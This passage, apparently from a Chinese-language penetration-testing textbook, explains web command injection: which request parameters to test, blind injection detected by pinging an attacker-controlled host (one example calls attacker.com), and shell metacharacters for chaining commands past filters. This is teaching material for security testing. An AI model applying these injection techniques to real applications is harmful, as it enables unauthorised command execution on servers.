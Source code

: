 非交互式 shell 允许您执行命令并查看结果，但不能与命令交互，也不能查看错误输出，例如在使用文本编辑器时。

# 识别注入数据的参数

当您测试 web 应用的命令注入缺陷，并且确认该应用正在与底层操作系统的命令行交互时，下一步是操作和探测应用中的不同参数，并查看它们的响应。应测试以下参数是否存在命令注入缺陷，因为应用可能正在使用其中一个参数在 web 服务器上重新生成命令：

*   **获取**：使用此方法，输入参数以 URL 发送。在前面显示的示例中，来自客户端的输入使用`GET`方法传递到服务器，容易受到命令注入漏洞的攻击。应测试使用`GET`方法请求发送的任何用户控制参数。
*   **POST**：此方法将输入参数发送到 HTTP 主体中。类似于使用`GET`方法传递的输入；从最终用户获取的数据也可以使用 HTTP 请求主体中的`POST`方法进行传递。然后 web 应用可以使用它在服务器端构建命令查询。
*   **HTTP 头**：应用通常使用头字段来识别最终用户，并根据头中的值向用户显示自定义信息。应用还可以使用这些参数来构建进一步的查询。要检查命令注入的一些重要头字段如下所示：
    *   `Cookies`
    *   `X-Forwarded-For`
    *   `User-Agent`
    *   `Referrer`

# 基于错误的盲命令注入

当您通过输入参数携带命令并在 web 浏览器中显示该命令的输出时，很容易识别应用是否容易受到命令注入缺陷的攻击。输出的形式可能是错误，也可能是您试图运行的命令的实际结果。作为渗透测试人员，您将根据应用使用的 shell 修改和添加其他命令，并从应用中收集信息。当输出显示在 web 浏览器中时，称为基于**错误的**或**非盲命令注入**。

在命令注入的另一种形式中，即**盲命令注入**，您注入的命令的结果不会显示给用户，也不会返回错误消息。攻击者必须依靠其他方法来确定该命令是否确实在服务器上执行。当命令的输出显示给用户时，您可以使用任何 bash shell 或 Windows 命令，例如`ls`、`dir`、`ps`或`tasklist`，具体取决于底层操作系统。但是，在测试盲注入时，需要仔细选择命令。作为一名道德黑客，当应用不显示结果时，识别注入缺陷存在的最可靠和安全的方法是使用`ping`命令。

攻击者注入`ping`命令，将网络数据包发送到其控制下的机器，并使用数据包捕获查看该机器上的结果。这可能在以下几个方面很有用：

*   由于`ping`命令在 Linux 和 Windows 中都类似，只是有一些小改动，因此如果应用容易受到注入缺陷的攻击，则该命令肯定会运行。
*   通过分析`ping`输出中的响应，攻击者还可以使用 TTL 值识别底层操作系统。
*   `ping`输出中的响应还可能让攻击者了解防火墙及其规则，因为目标环境允许 ICMP 数据包通过其防火墙。这可能在攻击的后期阶段很有用，因为 web 服务器有一条通往攻击者的路径。
*   `ping`效用通常不受限制；即使应用在非特权帐户下运行，也可以保证执行命令的机会。
*   输入缓冲区的大小通常是有限的，并且只能接受有限数量的字符，例如用户名的输入字段。`ping`命令以及 IP 地址和一些附加参数可以很容易地注入这些字段。

# 命令分隔符的元字符

在前面显示的示例中，分号用作元字符，用于分隔实际输入和尝试注入的命令。除了分号，还有其他几个元字符可用于注入命令。

开发人员可以设置筛选器来阻止分号元字符。这将阻止注入的数据，因此您也需要尝试其他元字符，如下表所示：

| **符号** | **用法** |
| --- | --- |
| `;` | 分号是用于测试注入缺陷的最常见元字符。shell 按分号分隔的顺序运行所有命令。 |
| `&&` | 仅当左侧的命令成功执行时，双符号 AND 才会在元字符右侧运行该命令。例如，将密码字段与正确的凭据一起注入。可以插入一个命令，该命令将在用户通过系统认证后运行。 |
| `&#124;&#124;` | 双管道元字符与双符号和正好相反。仅当左侧的命令失败时，它才会在右侧运行该命令。以下是此命令的示例：
`**cd invalidDir &#124;&#124; ping -c 2 attacker.com**` |
| `( )` | 使用分组元字符，可以组合多个命令的输出并将其存储在文件中。以下是此命令的示例：
`**(ps; netstat) > running.txt**` |
| ``` | 单引号元字符用于强制 shell 在反勾号之间解释和运行命令。以下是此命令的示例：
`**Variable= "OS version `uname -a`" && echo $variable**` |
| `>>` | 此字符将左侧命令的输出附加到字符右侧名为的文件。以下是此命令的示例：
`**ls -la >> listing.txt**` |
| `&#124;` | 单个管道将使用左侧命令的输出作为右侧指定命令的输入。以下是此命令的示例：
`**netstat -an &#124; grep :22**` |
